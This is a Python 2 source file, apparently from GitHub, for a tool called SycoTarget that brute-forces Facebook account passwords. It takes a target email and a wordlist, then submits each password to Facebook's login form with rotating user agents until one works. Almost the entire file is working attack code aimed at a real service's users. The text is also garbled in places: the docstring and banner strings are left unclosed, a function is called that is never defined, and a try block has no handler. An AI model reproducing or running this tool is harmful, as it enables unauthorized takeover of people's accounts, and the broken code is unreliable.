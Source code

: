 
#!/usr/bin/env python2
# encoding: utf-8
"""
SycoTarget.py


# Import module
try:
    import sys
    import mechanize
    import cookielib
    import random
    import os
    import time
    from os import system
    from time import sleep
    from sys import exit
except ImportError as f:
    system("clear")
    print("\033[32;1m[\033[31;1m!\033[32;1m] \033[0;33mError \033[31;1m: \033[37;1m{}".format(f))

banner = """\033[36;1m
m    m                mmmm                        ##  ##  m mm         #"   " m   m   mmm    mmm
 # ## #  #"  "        "#mmm  "m m"  #"  "  #" "#   # "" #  #                "#  #m#   #      #   #
 #    #  #            "mmm#"  "#    "#mm"  "#m#"                                m"
                             ""  \\
                     
     \x1b[1;97m Author   \033[31;1m:  \033[32mAuthenticXploit
     \x1b[1;97m Type     \033[31
     \x1b[1;97m Version  \033[31
system("clear")
slowprint(banner)
email = str(raw_input("\033[37;1minput facebook target \033[31;1m: \033[33;1m"))
passwordlist = str(raw_input("\033[37;1minput wordlist \033[31;1m: \033[33;1m"))
login = 'https://www.facebook.com/login.php?login_attempt=1'
useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0','Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]

def main():
    try:
        global br
        br = mechanize.Browser()
        cj = cookielib.LWPCookieJar()
        br.set_handle_robots(False)
        br.set_handle_redirect(True)
        br.set_cookiejar(cj)
        br.set_handle_equiv(True)
        br.set_handle_referer(True)
        br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
        menu()
        search()
        print("\033[32;1m[\033[31;1m!\033[32;1m]\033[33;1m Password does not exist in the wordlist")
    except mechanize.URLError:
        print("\n\033[32;1m[\033[31;1m!\033[32;1m]\033[33;1m No Connection")
        sleep(2)
        print("\033[32;1m[\033[31;1m!\033[32;1m] \033[31;1mExit\x1b[0m")
        exit()

def brute(password):
    sys.stdout.write("\033[36;1m\r[\033[33;1m-\033[36;1m] \033[37;1mTrying Password \033[31;1m=> \033[33;1m{}\n".format(password))
    sys.stdout.flush()
    br.addheaders = [('User-agent', random.choice(useragents))]
    site = br.open(login)
    br.select_form(nr = 0)
    br.form['email'] = email
    br.form['pass'] = password
    sub = br.submit()
    log = sub.geturl()
    if log != login and (not 'login_attempt' in log):
        print("\033[36;1m[\033[33;1m+\033[36;1m] \033[37;1mPassword Found => \033[32;1m{}".format(password))
        raw_input("\033[31;1mANY KEY to Exit....")
        exit(1)

def search():
    global password
    passwords = open(passwordlist,"r")
    for password in passwords:
        password = password.replace("\n","")
        brute(password)

#menu
def menu():
    try:
        total = open(passwordlist,"r")
        total = total.readlines()
        print(banner)
        print "\033[36;1m[\033[31;1m-\033[36;1m] \033[32;1mAccount to crack \033[31;1m> \033[0;33m{}".format(email)
        print "\033[36;1m[\033[31;1m-\033[36;1m] \033[32;1mLoaded \033[31;1m>\033[0;33m" , len(total), "passwords"
        print("\033[36;1m[\033[31;1m-\033[36;1m] \033[33;1mCracking, please wait ...\n")
    except IOError:
        print("\n\033[32;1m[\033[31;1m!\033[32;1m]\033[33;1m File wordlist \033[36;1m{} \033[33;1mNot Found\x1b[0m".format(passwordlist))
        exit()
	
if __name__ == '__main__':
    try:
        main()
    
